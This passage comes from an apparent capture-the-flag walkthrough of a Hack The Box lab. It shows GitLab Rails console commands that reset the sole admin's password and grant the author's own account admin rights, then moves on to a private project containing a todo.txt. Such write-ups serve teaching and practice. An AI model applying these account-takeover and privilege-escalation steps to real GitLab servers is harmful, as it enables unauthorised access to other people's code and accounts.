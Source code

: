 
### Access SecureDocker Project

#### Via Password Reset

Since dexter is the only admin, perhaps I could reset his password:

    
    
    irb(main):003:0> dexter.password = '0xdf0xdf'
    dexter.password = '0xdf0xdf'
    => "0xdf0xdf"
    irb(main):004:0> dexter.password_confirmation = '0xdf0xdf'
    dexter.password_confirmation = '0xdf0xdf'
    => "0xdf0xdf"
    irb(main):005:0> dexter.save
    dexter.save
    Enqueued ActionMailer::DeliveryJob (Job ID: 568f2530-647b-4783-b5b7-6f3e37820ede) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007f77bb1e5660 @uri=#<URI::GID gid://gitlab/User/1>>
    => true
    

Now I can log in to git.laboratory.htb as dexter, and there’s an additional
project:

![image-20210307054935384](https://0xdfimages.gitlab.io/img/image-20210307054935384.png)

#### Via Elevate Self

Alternatively, I could also give myself admin privs for GitLab:

    
    
    irb(main):006:0> me = User.find_by(username: "0xdf")
    me = User.find_by(username: "0xdf")
    => #<User id:5 @0xdf>
    irb(main):007:0> me.admin = true
    me.admin = true
    => true
    irb(main):008:0> me.save
    me.save
    => true
    

Now logged in as 0xdf, I can access the private project under Projects –>
Explore.

### SSH

#### Find SSH Key

The project has a handful of files in it, most of which are not that
interesting. There’s a `todo.txt`:

    
    
    # DONE: Secure docker for regular users
    ### DONE: Automate docker security on startup
    # TODO: Look into "docker compose"
    # TODO: Permanently ban DeeDee from lab
    